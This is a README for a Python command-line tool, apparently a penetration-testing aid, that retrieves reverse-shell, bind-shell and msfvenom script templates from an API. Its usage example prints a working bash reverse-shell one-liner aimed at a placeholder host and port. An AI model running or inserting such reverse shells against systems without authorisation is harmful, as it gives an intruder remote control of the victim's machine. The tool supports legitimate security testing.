## CLI Tool for interacting with Pen Tools API.
A command line interface tool for interacting with Pen Tools API. Quickly retrieve and format scripts using a simple set of commands.
### Installation 
**The package requires Python 3.7 or higher**.

Install latest version from [PyPI](https://pypi.org/project/pentools/): ```pip install pentools``` 

### Resources
[API documentation](https://pentools.herokuapp.com/docs)
### Usage
Below are some examples of the usage.
#### pentools list
Retrieve the list of scripts based on specified category (leave blank to see all).

```pentools list```
output:
```
Available types

0. rev
1. bind
2. msf_venom
3. listener
```

Add the ```-f``` flag to see available scripts.

```
pentools list rev  -f
```
output:
```
Available scripts and types

0. rev
    Shell session established on a connection that is initiated from a remote machine.
        0. bash_i [id: 1]('linux', 'mac')
        1. bash_196 [id: 2]('linux', 'mac')
        2. bash_read_line [id: 3]('linux', 'mac')
        3. Bash_5 [id: 4]('linux', 'mac')
        ...
```

#### pentool script
Retrieve and format a specific script based on id.

```pentools script -i 1 -ho example.ip -p 12345 -s bin/bash```
output:
```
---------------(code)---------------

bin/bash -i >& /dev/tcp/example.ip/12345 0>&1

-------------(end code)-------------
```
### Contact
* Email me at <sarartur.ruk@gmail.com> or open a new [Issue](https://github.com/sarartur/pentools/issues) on Github.


        


